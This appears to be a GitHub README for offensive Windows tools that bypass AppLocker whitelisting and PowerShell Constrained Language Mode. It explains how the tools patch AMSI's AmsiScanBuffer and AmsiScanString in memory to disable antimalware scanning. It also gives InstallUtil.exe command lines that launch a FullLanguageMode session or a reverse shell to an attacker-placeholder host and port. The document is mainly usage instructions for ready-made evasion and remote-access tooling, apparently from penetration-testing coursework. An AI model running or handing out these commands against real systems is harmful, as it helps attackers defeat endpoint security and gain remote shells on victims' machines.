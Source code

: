 # Applocker Bypass

## ToC

| Application | Output | Notes |
| ----------- | ------ | ----- |
| `altBypass` | EXE | Alternate custom ps-runspace for use in evading Application whitelisting |
| `psBypass`  | EXE | For use with InstallUtil. Contains AMSI binary patch. Will start an interactive powershell session in FullLanguageMode. |


## `altBypass`
Alternate custom PS-runspace for use in evading Application whitelisting.  Will start an interactive powershell session in **FullLanguageMode** and functions better over remote shells than `psBypass`.  Combination of [superhac/InteractiveRunspace](https://github.com/superhac/OSEP/blob/main/InteractiveRunspace.cs) and [calebstewart/bypass-clm](https://github.com/calebstewart/bypass-clm) with a dynamic patch for AMSI.  

The AMSI patch works by locating `AmsiUacInitialize` and then locating the actual functions we want to patch (`AmsiScanBuffer` and `AmsiScanString`) by grabbing the 1000 bytes preceding `AmsiUacInitiliaze` and then locating the functions within them by byte array. This *avoids the issue of hardcoding the offsets* of the target functions from `AmsiUacInitialize` when the location of the functions change depending on Windows version. 

Has builtin InstallUtils bypass ability.

I have also added the reverse shell functionality as implemented in [padovah4ck/PSByPassCLM](https://github.com/padovah4ck/PSByPassCLM). You can now get PowerShell FullLanguage Mode reverse shells, but note that the process you run it from will stall until you exit the PS Session. This is because the `installUtil` program won't finish until yours does.

### Usage
> TODO: Need to fix argument parsing, currently suited only for remote revshell through bypass

To run a PS FullLanguageMode Session in your current console:
```bat
# without installutil applocker bypass
altbypass.exe

# with bypass
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U <path>\altbypass.exe
```

To get a reverse shell:
```bat
# without bypass
altbypass.exe

# with bypass
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<ATTACKER_IP> /rport=<ATTACKER_PORT> /U <path>\altbypass.exe
```

## `psBypass`
For use with InstallUtil. Contains AMSI binary patch, but it uses harcoded offsets from `AmsiUacInitialize` of 96 bytes & 352 bytes to look for `AmsiScanBuffer` and `AmsiScanString`. 

Will start an interactive powershell session in FullLanguageMode.
